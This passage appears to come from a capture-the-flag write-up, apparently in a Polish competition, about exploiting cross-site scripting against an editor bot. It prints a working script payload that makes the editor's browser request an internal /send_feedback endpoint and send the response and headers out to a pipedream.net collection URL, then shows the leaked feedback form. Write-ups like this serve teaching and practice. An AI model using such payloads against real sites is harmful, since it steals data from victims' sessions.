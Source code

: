 But we found 2 interesting things in `location` and `source` fields.
* at the time of executing JS, the `href` field is set to: `http://zad38-2022-final:5000/show_article/<article_id>`. Since we now know the name of the host, we can call server's endpoints as editor without worrying about breaking [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS/Errors/CORSMissingAllowOrigin) policy.
* In the HTML source, we can see that there is one additional endpoint accessible for the editor - `/send_feedback`.
  
Let's check what editor sees after accessing this endpoint with Http `GET` method:
```html
<script>
    // Send the request to GET send_feedback on editor's behalf
    let req = new XMLHttpRequest();
    req.open("GET", "http://zad38-2022-final:5000/send_feedback");
    req.send();

    // Wait 1 second so the response arrives
    setTimeout(() => {

        // Send the response from the server (+ headers)
        const data = { 
            content: req.response,
            resp_headers: req.getAllResponseHeaders(), 
        };

        fetch('https://eozy3pwhxz589s.m.pipedream.net', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify(data),
        });

    }, "1000");
</script>
```

We successfully received the HTML source. In the source we can find an HTML form:
```html
<form method="POST">
  <div class="form-group">
    <label for="receiver">Login odbiorcy</label>
    <input type="text" class="form-control" id="receiver" name="receiver" placeholder="Username">
  </div>
  <div class="form-group">
    <label for="content">Treść</label>
    <textarea class="form-control" id="content" name="content" rows="3"></textarea>
  </div>
  <div class="form-check">
    <input type="checkbox" class="form-check-input" id="debug" name="debug">
    <label class="form-check-label" for="debug">Dołącz informacje diagnostyczne na temat systemu (testowa funkcjonalność)</label>
  </div>
  <div class="form-group">
      <button class="btn btn-primary" type="submit">Wyślij</button>
  </div>
</form>
```
